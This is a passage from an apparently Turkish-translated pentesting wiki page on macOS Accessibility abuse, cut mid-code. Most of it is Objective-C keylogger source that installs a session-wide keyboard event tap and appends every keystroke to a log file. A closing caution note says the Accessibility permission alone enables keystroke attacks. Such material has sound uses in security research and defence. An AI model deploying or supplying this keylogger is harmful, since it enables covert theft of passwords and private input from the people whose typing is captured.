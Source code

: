 ```objectivec
UInt32 deadKeyState = 0;
OSStatus status = UCKeyTranslate(keyboardLayout,
keyCode,
kUCKeyActionDown,
0,
LMGetKbdType(),
kUCKeyTranslateNoDeadKeysBit,
&deadKeyState,
maxStringLength,
&actualStringLength,
unicodeString);
CFRelease(currentKeyboard);

if (status == noErr && actualStringLength > 0) {
keyString = [NSString stringWithCharacters:unicodeString length:actualStringLength];
} else {
keyString = [NSString stringWithFormat:@"<KeyCode: %d>", keyCode];
}
}

NSString *logString = [NSString stringWithFormat:@"%@\n", keyString];
AppendStringToFile(logString, kKeystrokesLogPath);
}
return event;
}

int main() {
@autoreleasepool {
CGEventMask eventMask = CGEventMaskBit(kCGEventKeyDown);
CFMachPortRef eventTap = CGEventTapCreate(kCGSessionEventTap, kCGHeadInsertEventTap, 0, eventMask, KeyboardEventCallback, NULL);

if (!eventTap) {
NSLog(@"Failed to create event tap");
exit(1);
}

CFRunLoopSourceRef runLoopSource = CFMachPortCreateRunLoopSource(kCFAllocatorDefault, eventTap, 0);
CFRunLoopAddSource(CFRunLoopGetCurrent(), runLoopSource, kCFRunLoopCommonModes);
CGEventTapEnable(eventTap, true);
CFRunLoopRun();
}
return 0;
}
```
{{#endtab}}
{{#endtabs}}

> [!CAUTION] > **Erişilebilirlik çok güçlü bir izindir**, bunu başka şekillerde kötüye kullanabilirsiniz, örneğin **tuş vuruşu saldırısını** sadece bununla gerçekleştirebilirsiniz, System Events'i çağırmanıza gerek kalmadan.

{{#include ../../../../banners/hacktricks-training.md}}
